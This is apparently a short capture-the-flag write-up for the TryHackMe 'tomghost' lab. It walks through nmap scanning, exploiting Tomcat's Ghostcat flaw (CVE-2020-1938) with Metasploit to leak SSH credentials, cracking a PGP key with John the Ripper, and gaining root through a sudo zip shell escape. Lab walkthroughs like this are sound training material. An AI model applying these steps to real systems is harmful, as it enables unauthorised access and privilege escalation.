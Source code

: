 #### 07 AUG 2021 | tomghost 

#### ip : 10.10.169.221

# SCANNING

basic :
-------

$ nmap -sV -v 10.10.169.221  -oN nmap/intial


```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
8080/tcp open  http       Apache Tomcat 9.0.30

```
 

# CVE 2020-1938 

for tomcat 9.0.30

in metasploit run it  and return :


| skyfuck | 8730281lkjlkjdqlksalks |


$ssh skyfuck@ip 

and here we go we got a shell and can read the flag located in /home/merlin 

```
$sudo -l 

Sorry, user skyfuck may not run sudo on ubuntu.anguage

```



in skyfuck home we can found :

credential.pgp  tryhackme.asc

using  :
```
$gpg2john tryhackme.asc | tee hash_key
$john hash_key --wordlist=/usr/share/wordlists/rockyou.txt
```
found : alexandru        (tryhackme)

to decrypt the credintail.pgp :

reading https://superuser.com/questions/46461/decrypt-pgp-file-using-asc-key

```
$ gpg --import tryhackme.asc
$ gpg  -d credintial.pgp 

```
# results :

merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j                                                                                    


$su merlin




# Privilege escalation :



$sudo -l

`
User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip`


https://gtfobins.github.io/gtfobins/zip/



```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```


# rooted 










